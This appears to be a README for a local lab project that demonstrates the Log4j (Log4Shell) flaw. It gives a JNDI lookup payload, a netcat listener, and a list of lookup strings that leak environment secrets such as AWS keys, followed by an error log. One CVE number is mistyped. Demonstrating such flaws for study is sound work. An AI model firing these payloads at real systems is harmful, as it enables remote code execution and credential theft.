

# log4j-vuln-demo
Log4j vulnerability demo
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046



## CVE: CVE-2021-4428 | CVE-2021-45046
 
- [x] demo apache log4j2 vuln execute RCE via logs
 - [x] ```${jndi:ldap://127.0.0.1:3000}```
 - [x] postman collection for testing
 
## Local Startup

- [x] Open 2 terminal shell

- [x] Shell 1: Vulnerable Application [Green]
```
  ./gradlew bootRun
```
- [x] Shell 2: listen on mac port 3000 [RED]
```
   nc -l 3000
```
- [x] After running postman script attack, you will see something on RED terminal shell
```
0
 `?
```
- [x] This confirms, now attacker has access to app and can inject/run RCE to get any data
- [x] These are common vector attack ,which can be easily retrieved and send to servers.
```
${env:PATH}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_ACCESS_KEY_ID}
${sys:user.name}
${sys:java.version}
${sys:os.version}
${env:USER}
${java:os}
${date:MM-dd-yyyy}
${date:dd:MM:yyyy}
```

## Run postman collection local
- [x] log4j-vuln-jndi -> it will fire jndi lookup, 
    ``` try to fetch data from internal resource input```


## vuln example logs
```
2021-12-16 12:03:09,184 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1:3000]. javax.naming.CommunicationException: 127.0.0.1:3000 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at com.sun.jndi.ldap.Connection.<init>(Connection.java:245)
	at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1615)
	at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2847)
	at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:348)
	at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:202)
	at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
```